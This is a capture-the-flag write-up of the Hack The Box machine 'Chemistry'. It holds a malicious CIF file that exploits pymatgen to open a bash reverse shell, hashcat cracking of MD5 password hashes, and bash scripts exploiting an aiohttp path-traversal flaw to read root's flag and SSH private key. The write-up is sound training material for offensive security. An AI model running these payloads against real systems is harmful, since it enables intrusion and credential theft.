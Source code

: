 ```yaml
---
title: Chemistry - HTB
date: 2025-03-03 11:37:57 +0530
categories: [HTB, Linux]
tags: [htb,linux,easy]
---
```


## Overview
Chemistry is an easy machine from Hack The Box which focuses on File Upload, Password Cracking and Privilege Escalation, all of which are based on publicly available exploits.

---
- **IP:** 10.10.11.38
- **OS:** Linux
- **Difficulty:** Easy
- **Link:** [Chemistry - Hack The Box](https://app.hackthebox.com/machines/Chemistry)
- **Tools Used:** nmap, rustscan, netcat, pwncat, sqlite3, DB Browser for SQLite, hashcat

---
## Enumeration
### Port Scan
The Enumeration process begins with Port Scan using RustScan. The command used is as follows - `rustscan --range=1-65535 -a chemistry.htb -- -A -sC -sV`
The key takeaways from the port scan are:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.3 (Python 3.9.5)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
```
It is evident that http running on port 5000 should be the target.

### Website
The website on port 5000 has two options - Login and Register.
![Home Page](/assets/images/chemistry01.png){: w="700" h="400" }

A dashboard is presented upon the registration of a new user at http://chemistry.htb:5000/dashboard .
![Dashboard](/assets/images/chemistry02.png){: w="700" h="400" }

A File Upload functionality is observed on the dashboard, and takes files of *.cif* extension (Crystallographic Information File). A sample file is available and can be downloaded from the link in the web page.

---
## Exploitation
### Initial Foothold
A publicly available Arbitrary Code Execution vulnerability for *pymatgen* library was discovered after googling for "cif vulnerabilities" at this [link](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). A payload was crafted based on the PoC is present in the article:
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<listener_ip>/<listener_port> 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
**Note:** Please change the listener_ip and listener_port according to your environment.
The payload was made with the help of https://www.revshells.com/ .

A listener was set on the attacking machine using `pwncat -nvl <listener_port>`.
The file is uploaded upon which the web page presents two options for the file - View and Delete. The file gets parsed and the payload gets executed when clicked on "View".
![Upload Page](/assets/images/chemistry03.png){: w="700" h="400" }

Successful Reverse Shell
![Reverse Shell](/assets/images/chemistry04.png){: w="700" h="400" }

### User Flag
Since an initial foothold is obtained with the user *app*, the next step is to examine notable files within the **/home/app** directory. Analyzing the contents reveals two interesting files, **app.py**, and **database.db** file in the **/home/app/instance** folder. Both of these files can be copied to the attacking machine by starting a Python HTTP Server on the target using `python3 -m http.server 9099`. The files are transferred by running `wget http://chemistry.htb:9099/app.py` and `wget http://chemistry.htb:9099/instance/database.db` on the attacking machine.

**app.py** file is the Flask app that is running the Web Application on port 5000. The credentials for the database are available in **app.py** .
![Flask Credentials](/assets/images/chemistry05.png){: w="700" h="400" }

The **app.py** also mentions the type of the hashing algorithm used to store the passwords, which is md5 in this case.  
![Flask Passowrd](/assets/images/chemistry06.png){: w="700" h="400" }

The **database.db** file is viewed with *DB Browser for SQLite* or `sqlite3`` command line tool.
The password for one of the users can be cracked using `hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`, where **hashes.txt** contains all the md5 hashes from the database file separated by new-line.
One of the cracked password is used to logon to ssh and obtain the user flag.

---
## Privilege Escalation
LinPEAS is downloaded and run as the non-root user to check for Privilege Escalation paths. The LinPEAS output indicates an open localhost port 8080.
![Active Ports](/assets/images/chemistry07.png){: w="700" h="400" }

By connecting to this port from the target machine using `curl -vv http://127.0.0.1:8080`, it is observed that a Python server running *aiohttp version 3.9.1* is active.
![AIOHTTP](/assets/images/chemistry08.png){: w="700" h="400" }

A search for "aiohttp 3.9 vulnerabilities" led to the discovery of an exploit for a Path Traversal Vulnerability [here](https://github.com/z3rObyte/CVE-2024-23334-PoC). Analyzing the output from the previous `curl` command revealed that stylesheets and JavaScript files were being loaded from the *assets* directory. The proof-of-concept (PoC) exploit was then modified accordingly to read the root flag file, and upon execution, it successfully retrieved the root flag.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

### Bonus
The private key of the *root* user can also be obtained in a similar manner.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

This key can be copied and stored in a file with the permissions `-rw-------` (600) and can be used to logon as *root* user on the target using `ssh root@chemistry.htb -i <root.key>`.

---
## References
- [Pymatgen CIF exploit](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [AIOHTTP Path Traversal Exploit](https://github.com/z3rObyte/CVE-2024-23334-PoC)
- [Reverse Shell Generator](https://www.revshells.com/ )

---